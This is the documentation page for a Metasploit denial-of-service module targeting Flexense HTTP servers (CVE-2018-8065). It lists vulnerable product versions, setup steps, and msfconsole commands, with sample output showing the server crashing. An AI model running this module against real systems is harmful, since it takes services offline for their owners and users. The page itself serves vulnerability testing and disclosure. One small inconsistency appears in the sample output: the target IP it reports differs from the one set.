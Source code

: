 ## Description
This module triggers a Denial of Service vulnerability in the Flexense Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Flexense HTTP Server v10.6.24
Following list of softwares are vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

	
DiskBoss Enterprise    <= v9.0.18
Sync Breeze Enterprise <= v10.6.24
Disk Pulse Enterprise  <= v10.6.24
Disk Savvy Enterprise  <= v10.6.24
Dup Scout Enterprise   <= v10.6.24
VX Search Enterprise   <= v10.6.24


**Vulnerable Application Link** 
http://www.diskboss.com/downloads.html
http://www.syncbreeze.com/downloads.html
http://www.diskpulse.com/downloads.html
http://www.disksavvy.com/downloads.html
http://www.dupscout.com/downloads.html


## Vulnerable Application Installation Setup.
All Flexense applications that are listed above can be installed by following these steps.

Download Application : ```https://github.com/EgeBalci/Sync_Breeze_Enterprise_10_6_24_-DOS/raw/master/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/flexense_http_server_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/flexense_http_server_dos 
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/flexense_http_server_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```